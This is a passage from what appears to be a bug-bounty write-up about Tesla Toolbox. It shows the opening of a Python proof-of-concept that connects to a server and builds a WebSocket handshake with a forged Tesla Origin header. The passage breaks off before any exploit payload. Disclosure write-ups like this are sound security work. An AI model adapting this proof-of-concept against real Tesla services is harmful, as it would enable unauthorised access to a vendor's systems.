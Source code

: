 ![Untitled](/assets/images/Tesla-Toolbox/Nonetype.png)

I immediately wrote a POC code and submitted it to Tesla.

```python
import json
import socket
import struct
import secrets
import select
from random import choice

def connect_to_server(host, dst_port):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    client_socket.connect((host, dst_port))
    client_socket.settimeout(0.2)
    return client_socket

# Upgrade to Websocket Connection
def send_handshake_request(client_socket, host, path, port):
    request = "GET {} HTTP/1.1\r\n".format(path)
    request += "Host: {}:{}\r\n".format(host, port)
    request += "Connection: Upgrade\r\n"
    request += "Pragma: no-cache\r\n"
    request += "Cache-Control: no-cache\r\n"
    request += "User-Agent: no-cache\r\n"
    request += "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36\r\n"
    request += "Upgrade: websocket\r\n"
    request += "Origin: https://toolbox.tesla.com\r\n"
    request += "Sec-WebSocket-Version: 13\r\n"
    request += "Accept-Encoding: gzip, deflate\r\n"
```
